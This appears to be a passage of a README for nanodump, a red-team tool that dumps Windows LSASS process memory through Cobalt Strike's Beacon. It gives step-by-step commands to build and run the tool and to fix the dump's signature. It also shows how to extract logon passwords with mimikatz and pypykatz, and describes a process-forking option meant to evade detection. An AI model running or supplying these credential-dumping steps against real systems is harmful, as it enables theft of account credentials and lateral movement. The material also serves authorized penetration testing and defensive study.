 <h2 id="usage">2. Usage</h2>

<h3>Clone</h3>

```bash
git clone https://github.com/helpsystems/nanodump.git
```

<h3>Compile (optional)</h3>

<b>On Linux with MinGW</b>

```bash
make -f Makefile.mingw
```

<b>On Windows with MSVC</b> (No BOF support)

```bash
nmake -f Makefile.msvc
```

<h3>Import</h3>

Import the `NanoDump.cna` script on Cobalt Strike.


<h3>Run</h3>

Run the `nanodump` command in the Beacon console.

```
beacon> nanodump
```

<h3>Restore the signature</h3>

Once you downloaded the minidump, restore the invalid signature
```zsh
scripts/restore_signature <dumpfile>
```

<h3>Get the secretz</h3>

<b>mimikatz:</b>  
To get the secrets simply run:
```sh
mimikatz.exe "sekurlsa::minidump <dumpfile>" "sekurlsa::logonPasswords full" exit
```

<b>pypykatz:</b>  
If you prefer to stay on linux, you can use the python3 port of mimikatz called [pypykatz](https://github.com/skelsec/pypykatz).  
```sh
python3 -m pypykatz lsa minidump <dumpfie>
```

<h2 id="fork">3. Process forking</h2>

To avoid opening a handle to LSASS with `PROCESS_VM_READ`, you can use the `--fork` parameter.  
This will make nanodump create a handle to LSASS with `PROCESS_CREATE_PROCESS` access and then create a 'clone' of the process. This new process will then be dumped. While this will result in a process creation and deletion, it removes the need to read LSASS directly.
